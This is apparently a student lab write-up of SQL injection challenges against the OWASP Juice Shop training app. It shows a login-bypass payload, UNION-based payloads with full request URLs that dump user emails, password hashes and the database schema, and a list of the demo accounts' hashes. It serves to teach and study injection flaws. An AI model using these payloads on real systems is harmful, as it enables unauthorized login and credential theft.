









# LAB 05_SQLI

## 1. Login Admin
The first easier attack I try is called 'Login Admin'
This challenge demonstrates a classic SQL Injection vulnerability on the login form.
By manipulating the input fields, the attacker is able to alter the SQL query logic so that the authentication check is bypassed.
As a result, the application grants access to the first user in the database, which is the administrator account.

The string `' or 1=1 --` is a classic example used to explain how SQL Injection works.

Its meaning is:
- `'` closes the original input string in the SQL query
- `or 1=1` adds a condition that is always true
- `-- starts` a SQL comment, so everything after it in the same line is ignored

Conceptually, this allows an attacker to change the logic of the authentication query from “check if email and password are correct” to “return any user, because the condition is always true”.
Normal query:
```sql
SELECT * 
FROM users 
WHERE email = 'user@example.com' 
AND password = 'mypassword';
```
This one
```sql
SELECT * 
FROM users 
WHERE email = '' OR 1=1 -- ' 
AND password = 'anything';
```

Why specifically the admin? Because the application retrieves the first result from the 'all users' query, and the administrator is the first user in the database.

This shows how improper input validation can allow unauthorized access to privileged accounts.

----

## 2. User Credentials (Exfiltration)
During the assessment, a new user account with the email `giovanni@gmail.com` was created through the normal registration functionality of the OWASP Juice Shop application. This account was used as a reference to verify whether user-controlled data could later be retrieved through SQL Injection.

After authentication, the vulnerable endpoint `/rest/products/search` was exploited. Although this endpoint is designed to return product information, it is affected by a UNION-based SQL Injection vulnerability that allows the backend query to be extended with data coming from other database tables. By targeting the `Users` table, it was possible to retrieve sensitive account information.

The attack was carried out in progressive steps:

1. **Structural verification phase**
    `')) UNION SELECT 1,2,3,4,5,6,7,8,9 FROM users--`
   A first UNION-based payload was used with constant numeric values in all columns. This was done only to verify:

   * that the endpoint was injectable,
   * that the UNION operator was accepted,
   * and that the number of columns matched the original query.
   At this stage no real data was extracted; the goal was purely technical validation.

   The query is probably something like this:
    ```sql
    SELECT id, name, description, price, deluxePrice, image, createdAt, updatedAt, deletedAt
    FROM Products
    WHERE name LIKE '%')) UNION SELECT 1,2,3,4,5,6,7,8,9 FROM users--%'
    ...
    ```
   So it becomes something like:
    ```sql
    SELECT id, name, description, price, deluxePrice, image, createdAt, updatedAt, deletedAt
    FROM Products
    WHERE name LIKE '%'
    UNION
    SELECT 1,2,3,4,5,6,7,8,9 FROM users;
    ```

2. **Data exfiltration phase**

   I can use the same url: `http://localhost:3000/rest/products/search?q=M%27))%20UNION%20SELECT%201,2,3,4,5,6,7,8,9%20FROM%20users--`
   To get this result with the name of the fields:
   
   Why?
   Two actions are performed simultaneously: 'M' causes the product search to fail, and 'UNION SELECT 1..9' injects a controlled SELECT statement.
   Consequently, we can infer that the first three fields correspond to id, name, and description.

    `')) UNION SELECT id,email,password,4,5,6,7,8,9 FROM users--`
   After confirming the correct column count, the numeric placeholders were replaced with real fields from the `Users` table. In this phase:

   * the first column was mapped to the user ID,
   * the second to the email,
   * the third to the password hash,
   * while the remaining columns were filled with neutral values.

This allowed real credentials to be returned inside the JSON response.

3. **Result cleaning phase**
    `M')) UNION SELECT id,email,password,4,5,6,7,8,9 FROM users--`  

   * only the injected UNION results were displayed,
   * no legitimate product data was mixed with the extracted credentials,
     producing a much cleaner and more readable output.

The extracted data included:

* User identifiers
* Email addresses
* Password hashes

These values were returned inside the JSON response but mapped onto product fields. In particular:

* The `name` field contained the users’ email addresses
* The `description` field contained the password hashes

The presence of the newly created account `giovanni@gmail.com` in the extracted results confirmed that the attack was successful and that credentials for all registered users could be obtained, including those created by an attacker.


It is important to note that the application does not execute arbitrary SQL statements provided by the user. The input is embedded into a predefined query. Therefore, providing a standalone `SELECT` statement does not produce any effect. Only inputs that terminate the original string context and extend the existing query logic are able to alter the SQL executed by the backend.

I created a small python script (`user_credentials.py` in this folder) used to download and show the users and relative hashed passwords. The result is:
```bash
admin@juice-sh.op : 0192023a7bbd73250516f069df18b500
jim@juice-sh.op : e541ca7ecf72b8d1286474fc613e5e45
bender@juice-sh.op : 0c36e517e3fa95aabf1bbffc6744a4ef
bjoern.kimminich@gmail.com : 6edd9d726cbdc873c539e41ae8757b8c
ciso@juice-sh.op : 861917d5fa5f1172f931dc700d81a8fb
support@juice-sh.op : d57386e76107100a7d6c2782978b2e7b
morty@juice-sh.op : f2f933d0bb0ba057bc8e33b8ebd6d9e8
mc.safesearch@juice-sh.op : b03f4b0ba8b458fa0acdc02cdb953bc8
J12934@juice-sh.op : 3c2abc04e4a6ea8f1327d0aae3714b7d
wurstbrot@juice-sh.op : 9ad5b0492bbe528583e128d2a8941de4
amy@juice-sh.op : 030f05e45e30710c3ad3c32f00de0473
bjoern@juice-sh.op : 7f311911af16fa8f418dd1a3051d6810
bjoern@owasp.org : 9283f1b2e9669749081963be0462e466
chris.pike@juice-sh.op : 10a783b9ed19ea1c67c3a27699f0095b
accountant@juice-sh.op : 963e10f92a70b4b463220cb4c5d636dc
uvogin@juice-sh.op : 05f92148b4b60f7dacd04cceebb8f1af
demo : fe01ce2a7fbac8fafaed7c982a04e229
john@juice-sh.op : 00479e957b6b42c459ee5746478e4d45
emma@juice-sh.op : 402f1c4a75e316afec5a6ea63147f739
stan@juice-sh.op : e9048a3f43dd5e094ef733f3bd88ea64
giovanni@gmail.com : 0c88028bf3aa6a6a143ed846f2be1ea4
```

This challenge demonstrates that SQL Injection vulnerabilities are not limited to authentication bypass. They can also be exploited for full data exfiltration, allowing an attacker not only to retrieve sensitive information such as user credentials, but also to control how the extracted data is structured and presented.

----

## 3. Bypassing authentication
We have identified the accounts present in the system. For example, Emma: `emma@juice-sh.op`  

The objective is to access the portal using this account by bypassing the authentication mechanism.
Attempts to manipulate the password field were deemed ineffective, as the password is hashed before comparison with the stored database value. Consequently, the focus remains solely on the email field.
The SQL query is likely structured as follows:
```sql
SELECT *
FROM Users
WHERE email = '<EMAIL>'
  AND password = '<HASH_PASSWORD>';
```
Therefore, the email input should be: `emma@juice-sh.op'--`
The resulting query becomes:
```sql
SELECT *
FROM Users
WHERE email = 'emma@juice-sh.op'--'
  AND password = 'not relevant';
```
Effectively becoming:
```sql
SELECT *
FROM Users
WHERE email = 'emma@juice-sh.op';
```


## 4. Database Schema
For this challenge, Burp Suite was used to intercept and manually manipulate the HTTP requests generated by the Juice Shop application. After starting Burp and opening the Juice Shop web interface, the browser traffic was routed through the Burp proxy. By navigating the application and performing a product search, the following request was identified: `GET /rest/products/search?q= HTTP/1.1`



This endpoint is responsible for querying the backend database and returning product information based on the user’s input. Since it directly interacts with the database, it represents a suitable injection point for SQL Injection attacks.

The request was then sent to the Repeater tool, allowing full control over its content and enabling systematic testing of different payloads.

Initially, the endpoint was tested with a normal query such as: `GET /rest/products/search?q=fruit HTTP/1.1` which correctly returned products related to the keyword fruit.

 


To verify the presence of an SQL Injection vulnerability, a single quote was appended: `GET / rest/products/search?q=fruit' HTTP/1.1`. 

The server responded with an HTTP 500 error and the following message: `SequelizeDatabaseError: SQLITE_ERROR: near "'%'": syntax error`
This confirms that the input is directly embedded into an SQL query without proper sanitization or escaping. The presence of a database error message also reveals internal implementation details, which further assists an attacker.

At this point, the injection was confirmed.


#### Query Termination

The next step was to properly terminate the original SQL query so that additional SQL logic could be appended. For this purpose, the following payload was tested: `fruit'))--`

Here:
- `'` closes the string context,
- `))` closes the open parentheses used in the original query,
- `--` starts a SQL comment, ignoring the remaining part of the backend query.

This payload did not produce syntax errors, meaning that the structure of the original query was successfully controlled.



#### Column Count Discovery

Before using a UNION SELECT, the number of columns returned by the original query must be known. This is necessary because SQL requires both SELECT statements in a UNION to have the same number of columns.

To discover this, a trial-and-error approach was used:

`fruit')) UNION SELECT 1--`
`fruit')) UNION SELECT 1,2--`
`fruit')) UNION SELECT 1,2,3--`
...


The process was repeated until no SQL error was generated. The query succeeded when using:

`fruit')) UNION SELECT 1,2,3,4,5,6,7,8,9--`


This shows that the original query returns 9 columns.

To confirm correct execution, the following payload was used:

`fruit')) UNION SELECT 1,2,3,4,5,6,7,8,9 FROM sqlite_master --`
(the correct line to write is `GET /rest/products/search?q=fruit%27))%20UNION%20SELECT%201,2,3,4,5,6,7,8,9%20FROM%20sqlite_master%20--%20 HTTP/1.1`)


The response contained numeric values mapped into product fields such as:

`{"id":1,"name":2,"description":3,"price":4,"deluxePrice":5,"image":6,"createdAt":7,"updatedAt":8,"deletedAt":9}`


This verifies that:
- the UNION operation works,
- the column count is correct,
- data can be injected into the response.

This phase serves only as structural validation and does not yet extract real information.

#### Schema Exfiltration

In SQLite, the internal table sqlite_master (also known as sqlite_schema) contains the complete definition of the database schema. In particular, the column sql stores the original CREATE TABLE statements.

To extract the schema, the numeric placeholders were replaced with real columns from sqlite_master:

`fruit')) UNION SELECT sql,2,3,4,5,6,7,8,9 FROM sqlite_master --`


This caused the response to include values such as:
```sql
CREATE TABLE Users(...)
CREATE TABLE Products(...)
CREATE TABLE BasketItems(...)
```

At this point, the database schema was already partially recovered.

To obtain a richer and more structured output, the following payload was used:

```
fruit')) UNION SELECT type,name,tbl_name,rootpage,sql,NULL,NULL,NULL,NULL FROM sqlite_master --
```
(`GET /rest/products/search?q=fruit%27))%20UNION%20SELECT%20type,name,tbl_name,rootpage,sql,NULL,NULL,NULL,NULL%20FROM%20sqlite_master%20--%20 HTTP/1.1`)  

This extracts:
- type: object type (table, index, view),
- name: object name,
- tbl_name: associated table,
- rootpage: SQLite internal information,
- sql: full schema definition.



This query successfully returned the complete schema of the database, including all tables, indexes, and their corresponding CREATE TABLE statements.

Thus, the entire backend structure was exfiltrated.

#### Discussion

Unlike the User Credentials challenge, which focuses on extracting application data, this challenge targets database metadata. Instead of stealing user records, the attacker retrieves the blueprint of the database itself.

This represents a crucial reconnaissance phase in a real-world attack:

- The attacker discovers table names.
- The attacker learns column names and types.
- The attacker identifies sensitive fields.
- Future injections become precise and efficient.

This shows that SQL Injection is not only a tool for data theft but also a powerful method for reverse-engineering the entire backend structure of an application.

The vulnerability exists because user-controlled input is directly concatenated into SQL queries without sanitization or the use of prepared statements. Additionally, the application exposes raw SQL errors, which significantly lowers the barrier for successful exploitation by revealing internal query structures and database technologies.